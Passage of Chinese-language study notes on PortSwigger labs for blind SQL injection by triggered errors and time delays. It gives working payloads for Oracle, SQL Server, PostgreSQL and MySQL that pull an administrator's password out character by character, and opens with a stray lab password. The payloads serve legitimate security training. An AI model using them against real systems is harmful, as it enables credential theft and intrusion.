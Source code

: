 Password:`l0libd4yt463lcxyow0c`

可以明显感觉到从这一题开始不像开始那么简单了，工作量变得很大，所以我们应该更加注重工具的使用。

#### 2）通过触发SQL错误引入条件响应

当网站不会在数据库返回为空时显示不同的响应时，上面的注入就不能成功了。在这种情形下，通常可能的方式是通过引发SQL错误导致网页显示不同的响应。下面是两个cookie请求：

```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

这些输入使用了关键字CASE根据不同的条件返回不同的表达式，第一个输入会返回`'a'`而第二个输入会返回`1/0`并造成devide-by-zero错误。此错误可能会造成页面的些许区别，如果有区别，我们就可以使用此区别来获取一些信息，如admin的密码：若密码第一位大于m则正常输出，若小于m则报错。

`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

>  [Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

尝试用前两个请求作为输入，都会显示Internal Sever Error，原因可能是数据库种类的问题。提示说是Oracle数据库，所以应该使用Oracle对应的格式。

```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual 
```

这一次的payload就不再显示错误了，通过此输入判断密码长度为

```sql
' AND (SELECT CASE WHEN(username='administrator' AND LENGTH(password)>0) THEN to_char(1/0) ELSE 'a' END FROM dual)='a
```

#### 3) 通过触发时延(Time delays)进行盲注

如果应用会捕捉并处理数据库错误，上面的方法就不再适用。在这种情形下，由于SQL请求通常是同步运行的，延迟处理SQL请求意味着HTTP应答的延迟。所以，就可以通过HTTP相应的时延判断SQL运行的时延。触发时延的方法根据数据库种类的不同而不同，SQL Server中可以用以下代码触发：

```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'-- 	--不会触发
'; IF (1=1) WAITFOR DELAY '0:0:10'--	--会触发
/*
其他数据库：
Oracle 			dbms_pipe.receive_message(('a'),10)
Microsoft 	WAITFOR DELAY '0:0:10'
PostgreSQL 	SELECT pg_sleep(10)
MySQL 			SELECT sleep(10) 
*/
# 然后就可以用此方法获得信息。
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

> [Lab: Blind SQL injection with time delays](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

#Todo
